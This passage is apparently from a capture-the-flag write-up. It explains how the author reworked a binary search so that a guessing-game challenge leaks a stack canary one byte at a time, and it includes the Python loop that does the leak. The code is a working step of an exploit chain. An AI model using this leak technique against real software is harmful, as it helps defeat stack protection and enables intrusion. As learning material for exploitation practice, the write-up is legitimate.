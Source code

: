 At this point, I realized that I actually could be certain of a bytes value without technically hitting it. By default, my binary search algorithm never hit odd numbers until the very end of a search, on the eigthth guess, at which point I could derive the correct answer anyway without burning a guess. So I modified my algorithm, and now, the odds were reasonably high that I could leak two addresses in one run through the program!

Here is the code to leak the canary alone. Please note that I know that this is an unusual implementation of a binary search algorithm. This was the best way I could come up with to avoid hitting odd numbers and burning guesses, so while this code is long and ugly, it does work quite reliably:
```
count = 0

i = 1
depth = 0
addition = 0
canary = 0
while True:
	print(target.recvuntil(b'(0-7)?'))
	target.sendline(str(0x20 + i).encode('ascii'))
	print(target.recvuntil(b'guess:'))
	my_guess = 0x100 // 2 + addition
	print(hex(my_guess))
	target.sendline(str(my_guess).encode('ascii'))
	result = target.recvuntil(b'Which')
	depth += 1
	if b'low' in result:
		if depth == 7:
			my_guess += 1
			canary += (0x10 ** (2 * i)) * my_guess
			print(hex(canary))
			i += 1
			depth = 0
			addition = 0
		else:
			addition += 0x100 // (2 ** (depth + 1))
	elif b'high' in result:
		if depth == 7:
			my_guess -= 1
			canary += (0x10 ** (2 * i)) * my_guess
			print(hex(canary))
			i += 1
			depth = 0
			addition = 0
		else:
			addition += -1 * (0x100 // (2 ** (depth + 1)))
	else:
		canary += (0x10 ** ( 2 * i)) * my_guess
		print(hex(canary))
		i += 1
		depth = 0
		addition = 0
		count += 1
	if i == 8:
		break

```